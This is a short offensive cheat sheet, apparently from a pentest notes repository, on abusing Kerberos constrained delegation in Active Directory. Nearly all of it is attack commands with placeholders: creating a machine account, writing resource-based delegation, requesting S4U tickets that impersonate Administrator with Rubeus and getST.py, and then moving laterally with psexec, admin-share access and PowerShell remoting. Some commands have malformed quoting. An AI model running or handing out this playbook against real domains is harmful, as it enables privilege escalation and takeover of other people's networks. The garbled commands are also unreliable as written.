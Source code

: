 # Constrained Delegation

## Tools: Rubeus , rbcd.py , addcomputer.py , getST.py

### Object: msDS-AllowedToDelegateTo

### UACs TRUST_TO_AUTH_FOR_DELEGATION (With protocol transition (any)) / TRUSTED_FOR_DELEGATION (Without protocol transition (kerberos only))

# 1) Without protocol transition (kerberos only)  msDS-AllowedToDelegateTo TRUSTED_FOR_DELEGATION

 - addcomputer.py -computer-name 'RBCD_COM$' -computer-pass 'RBCD_COM_PASSWORD' -dc-ip DC -DOMAIN/USER:PASSWORD' (RBCD)

 - rbcd.py -delegate-from 'RBCD_COM$' -delegate-to 'CONSTRAINED$' -dc-ip -'DC' -action 'write' -hashes 'HASH DOMAIN/CONSTRAINED$ (For Self RBCD, Skip the 1st step entirely)

 - getST.py -self -impersonate "administrator" -dc-ip IP DOMAIN/RBCD_COM$':'RBCD_COM_PASSWORD'

 - getST.py -spn host/CONSTRAINED -hashes 'HASH' 'DOMAIN/COMPUTER_ACCOUNT' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

 - getST.py -spn CONSTRAINED_SPN/TARGET -hashes 'HASH' 'DOMAIN/CONSTRAINED$' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

#### This technique gives a Kerberos TGS (Service ticket)

# 2) (With protocol transition (any)) msDS-AllowedToDelegateTo TRUST_TO_AUTH_FOR_DELEGATION

 - Rubeus hash /password:PASSWORD

## OR 

 - Rubeus asktgt /user:USER /domain:DOMAIN /aes256:AES_256_HASH

 - Rubeus s4u /ticket:TICKET /impersonateuser:ADMIN_USER /msdsspn:SPN_CONTRAINED /altservice:CIFS /ptt (Choose the altservice below to use with rubeus)

### Altservice:

#### 1) HOST

 - psexec \\\TARGET CMD

#### 2) CIFS

 - dir \\TARGET\c$

#### 3) HTTP

 - Enter-Pssession -computername TARGET

## OR 

 - Invoke-Command TARGET -Scriptblock {COMMAND}

#### 4) LDAP (No interactions)

### This attack gives a Kerberos TGS (Service Ticket)
